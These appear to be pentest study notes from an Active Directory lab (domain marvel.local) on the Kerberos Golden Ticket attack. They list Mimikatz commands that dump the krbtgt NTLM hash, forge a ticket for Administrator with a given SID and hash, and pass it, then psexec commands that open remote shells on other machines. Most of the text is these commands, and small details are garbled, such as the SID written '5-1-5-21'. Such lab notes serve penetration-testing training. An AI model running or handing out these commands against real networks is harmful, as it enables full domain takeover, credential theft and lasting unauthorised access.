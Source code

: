 #SID #krbtgt #mimikatz #psexec  

Once we have the SID and krbtgt hash, we can generate a ticket  
# What is it?

- When we compromise the krbtgt account, we own the domain
- We can request access to any resource or system on the domain  
- Golden tickets == complete access to every machine

We can utilize Mimikatz toobtain the information necessary to perform this attack

`mimikatz.exe`​
`privilege::debug`​
`lsadump::lsa /inject /name:krbtgt`​

- dumps the information for the krbtgt account
- need:
	- krbtgt ntlm hash
	- domain SID  

Once we have the SID and krbtgt hash, we can generate a ticket (in mimikatz)  

`kerberos::golden /User:Administrator /domain:marvel.local /sid:5-1-5-21-1906906745-4001022521-2301571936 /krbtgt:ece475c9f4435447d31a6cad2b49e5a6 /id:500 /ptt`​

- /User can be a fake user, /domain must be real  

`misc::cmd`​

With a Golden Ticket, we can now access other machines from the cmd line

`dir \\10.0.0.25\C$   `
`dir \\THEPUNISHER\C$`​​​
`Exec64.exe \\10.0.0.25 cmd.exe`​
`psexec.exe \\THEPUNISHER cmd.exe`
- (psexec.exe is a Windows tool.run it in the Golden Ticket session against another domain user/account to get a shell)
`whoami`​
`hostname`​

Golden Ticket is persistence. Silver Ticket is stealthier than Golden Ticket.  

